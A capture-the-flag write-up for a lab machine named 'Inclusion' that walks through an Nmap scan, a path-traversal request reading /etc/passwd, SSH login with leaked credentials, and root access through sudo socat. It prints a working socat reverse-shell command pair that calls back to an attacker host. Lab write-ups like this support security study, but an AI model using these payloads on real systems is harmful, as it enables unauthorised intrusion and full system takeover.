 # Inclusion

_13th September 2020_

## Host enumeration

The initial Nmap scan reports the following.

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`. There just seems to be a basic webpage with some LFI/RFI definitions on it. These pages use data that are read from files on the file system.

## Local File Inclusion

We can try to check for LFI by changing the `name` parameter in the URL like so.

```
http://<IP>/article?name=/../../../../../../../etc/passwd
```

### Analysis

The webpage is prone to LFI since we can see the `etc/passwd` file. This file contains a commented piece of code with credentials. We can use these credentials for an SSH login. A file called `user.txt` is found in the current directory and contains the user flag.

## Privilege escalation

Upon looking at the permissions of the current user with `sudo -l`, we see that `usr/bin/socat` can be executed. From [GTFObins](https://gtfobins.github.io/gtfobins/socat/) we find the reverse shell payloads for `socat`. We execute `sudo socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacking machine and `socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane` on the inclusion machine.

### Analysis

A shell is obtained as the (root) user.

```
# whoami
root
```

We can now navigate to the `/root` directory and find the root flag inside a file called `root.txt`.
